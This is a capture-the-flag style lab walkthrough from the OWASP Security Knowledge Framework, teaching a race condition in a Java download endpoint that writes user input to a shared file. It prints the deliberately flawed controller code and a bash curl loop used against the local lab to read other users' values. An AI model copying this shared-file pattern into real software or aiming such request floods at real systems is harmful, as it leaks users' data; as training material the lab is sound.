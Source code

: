 # Race Condition File-Write

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-racecondition-file-write
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-race-condition-file-write
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

We can download a file from the server by doing a GET request to the server.

![](../../.gitbook/assets/java/RaceCondition-File-Write/1.png)

Let's try:

![](../../.gitbook/assets/java/RaceCondition-File-Write/2.png)

Once we download the file we can see whatever we add to the URL is being written in a file called shared-file.

![](../../.gitbook/assets/java/RaceCondition-File-Write/3.png)

#### Step 2

As the application suggests, there is a Race condition vulnerability in this app, let's try to find it.

If we look at the code we see that the application gets the query parameter, writes to a file called shared-file.txt, then opens the file and send it back as a response.

```java
public class RaceConditionController {
  @GetMapping("/{value}")
  public ResponseEntity<Object> downloadFile(@PathVariable String value, Model model) throws IOException {
    FileWriter fileWriter = new FileWriter("shared-file.txt", false);
    fileWriter.write(value);
    fileWriter.close();
    File file = new File("shared-file.txt");
    InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
    HttpHeaders headers = new HttpHeaders();
    headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
    headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
    headers.add("Pragma", "no-cache");
    headers.add("Expires", "0");
    ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
        .contentType(
            MediaType.parseMediaType("application/txt"))
        .body(resource);

    return responseEntity;
  }
}
```

#### Step 3

How can we exploit this?

We have a very small window between the writing of the file:

```java
InputStreamResource resource = new InputStreamResource(new FileInputStream(file));
```

and the response:

```java
HttpHeaders headers = new HttpHeaders();
headers.add("Content-Disposition", String.format("attachment; filename=\"%s\"", file.getName()));
headers.add("Cache-Control", "no-cache, no-store, must-revalidate");
headers.add("Pragma", "no-cache");
headers.add("Expires", "0");
ResponseEntity<Object> responseEntity = ResponseEntity.ok().headers(headers).contentLength(file.length())
    .contentType(MediaType.parseMediaType("application/txt"))
    .body(resource);
return responseEntity;
```

Maybe if we have multiple users on this application at the same time we might be able to intercept someone else's query.

## Exploitation

In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh

#!/bin/bash

while true; do

	curl -i -s -k  -X $'GET' -H $'Host: localhost:5000' $'http://localhost:5000/111' | grep "111"

done

```

and in the meantime we will send a couple requests from Burp:

![](../../.gitbook/assets/java/RaceCondition-File-Write/4.png)

If we look in the logs we will see:

![](../../.gitbook/assets/java/RaceCondition-File-Write/5.png)

## Additional sources

https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)
